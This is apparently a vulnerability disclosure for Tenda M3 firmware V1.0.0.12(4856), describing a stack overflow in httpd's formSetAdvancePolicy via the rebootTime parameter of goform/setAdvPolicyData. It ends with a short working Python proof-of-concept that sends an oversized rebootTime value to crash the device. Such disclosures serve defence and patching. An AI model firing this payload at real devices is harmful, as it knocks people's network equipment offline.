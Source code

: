 ## Overview

- The device's official website: https://www.tenda.com.cn/product/M3.html
- Firmware download website: https://www.tenda.com.cn/download/detail-3133.html

## Affected version

V1.0.0.12(4856)

## Vulnerability details

httpd in directory `/bin` has a stack overflow vulnerability. The vulnerability occurrs in the `formSetAdvancePolicy` function, which can be accessed via the URL `goform/setAdvPolicyData`

<img src="img/image-20220527165010225.png" alt="image-20220527165010225" style="zoom:50%;" />



When the POST parameter `policyType` is equal to "reboot", program will enter function `sub_64b5c`.

<img src="img/image-20220527165144194.png" alt="image-20220527165144194" style="zoom:50%;" />

In this function, it copies POST parameter `rebootTime` to stack buffer without checking its length, causing a stack overflow vulnerability.

## PoC

Poc of Denial of Service(DoS)

```python
import requests

data = {
    b"policyType": b"reboot",
    b"rebootTime": b"12:" + b'A'*0x400
}
cookies = {
    b"user": "admin"
}
res = requests.post("http://127.0.0.1/goform/setAdvPolicyData", data=data, cookies=cookies)
print(res.content)
```

